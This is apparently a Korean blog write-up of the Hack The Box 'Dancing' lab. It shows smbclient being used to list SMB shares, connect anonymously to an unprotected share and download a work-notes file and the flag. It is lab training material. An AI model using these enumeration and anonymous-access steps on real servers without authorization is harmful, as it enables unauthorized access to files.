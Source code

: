```yaml
---
title: HTB Dancing Write-up
categories: [HackTheBox, StartingPoint]
tags: [HackTheBox, SMB, smbclient]
image:
    path: /assets/image_post/20240207111335.png
---
```

이번 문제는 SMB 관련된 기초 문제이다.
![](../assets/image_post/20240203162738.png)


SMB 관련되어 통신을 해본적이 단 한번도 없으므로 아래 내용 자체를 이해하지 못해, 검색해보았다. 그랬더니 smbclient라는 툴을 사용해야하만 하는 문제였다.
![](../assets/image_post/20240203162816.png)

smbclient 실행 시 아래의 옵션이 있으며, 리스트 확인하는 거라면 '-L'이라는 것을 알 수 있다.
``` shell
# smbclient -h

Invalid option -h: unknown option

Usage: smbclient [-?EgqBNPkV] [-?|--help] [--usage] [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan]
        [-D|--directory=DIR] [-c|--command=STRING] [-b|--send-buffer=BYTES] [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet] [-B|--browse]
        [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout] [-s|--configfile=CONFIGFILE] [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report]
        [--leak-report-full] [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS] [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME]
        [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM] [-U|--user=[DOMAIN/]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING] [--pw-nt-hash]
        [-A|--authentication-file=FILE] [-P|--machine-pass] [--simple-bind-dn=DN] [--use-kerberos=desired|required|off] [--use-krb5-ccache=CCACHE]
        [--use-winbind-ccache] [--client-protection=sign|encrypt|off] [-k|--kerberos] [-V|--version] [OPTIONS] service <password>
```
실제로 연결 시도 시 아래와 같이 출력되는 것을 확인 할 수 있다.
``` shell
# smbclient -L 10.129.86.199
Password for [WORKGROUP\root]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.86.199 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
각각의 내용은 아래와 같다.
<br/><br/>


| Sharename    | Type  | Comment                    |
|--------------|-------|----------------------------|
| ADMIN$       | Disk  | 원격 관리를 위한 특별한 공유 폴더로, 시스템 관리자가 원격으로 서버를 관리하는 데 사용됩니다.               |
| C$           | Disk  | 서버의 C 드라이브에 대한 기본 공유로, 서버의 파일 시스템에 접근할 수 있도록 합니다.                         |
| IPC$         | IPC   | Inter-Process Communication(프로세스 간 통신)에 사용되는 특수한 공유 폴더로, 사용자들이 직접 접근할 필요가 없습니다. |
| WorkShares   | Disk  | 서버에서 추가로 설정된 디스크 또는 디렉토리를 나타내며, 해당 폴더의 "Disk" 타입은 파일 및 디렉토리를 공유할 수 있음을 의미합니다. "Comment"에는 해당 공유에 대한 설명이나 주석이 들어갑니다. |


문제 6번에 대한 답이 당연히 'anonymous'인줄 알았으나, 오답이였다. 힌트를 확인해보니, 위 결과에서 $가 없는 이름이 정답인듯 하다.
![](../assets/image_post/20240203163617.png)

몇 가지 검색 해보니 "$" 여부에 대한 아래의 내용을 찾을 수 있다.
> $가 없는 공유는 일반적으로 사용자에게 익명으로 접근이 허용되는 공유를 의미합니다. 예를 들어, Public 공유는 일반적으로 모든 사용자에게 열려있고, 로그인이 필요 없는 익명 공유로 간주됩니다.


이제 대상 WorkShares에는 '$' 표시가 없으므로 익명으로 접속하는 옵션인 -N을 붙여 연결을 시도하면 아래와 같이 접속이 가능하다.
``` shell
# smbclient //10.129.86.199/WorkShares -N

Try "help" to get a list of possible commands.
smb: \>
```

접속 후 어떤 파일이 있는 확인 후 아래와 같이 다운로드 할 수 있다.
``` shell
smb: \> ls
  .                                   D        0  Mon Mar 29 08:22:01 2021
  ..                                  D        0  Mon Mar 29 08:22:01 2021
  Amy.J                               D        0  Mon Mar 29 09:08:24 2021
  James.P                             D        0  Thu Jun  3 08:38:03 2021
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 09:08:24 2021
  ..                                  D        0  Mon Mar 29 09:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 11:00:37 2021
		5114111 blocks of size 4096. 1748861 blocks available

smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

``` shell
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 08:38:03 2021
  ..                                  D        0  Thu Jun  3 08:38:03 2021
  flag.txt                            A       32  Mon Mar 29 09:26:57 2021

		5114111 blocks of size 4096. 1748861 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

SMB 연결 해제 후 받아온 파일 내용을 확인하면 flag 획득이 가능하다.
```
# cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing #
#
# cat flag.txt
........
```

SMB 관련 악성코드도 분석해보고 했지만, 실제로 이렇게 SMB 연결해본 것은 처음이다. 앞으로도 사내 서버가 외부에 SMB 포트가 노출되어 있다면, 이렇게 접근해보는 것도 괜찮을 것 같다.
![](../assets/image_post/20240203165009.png)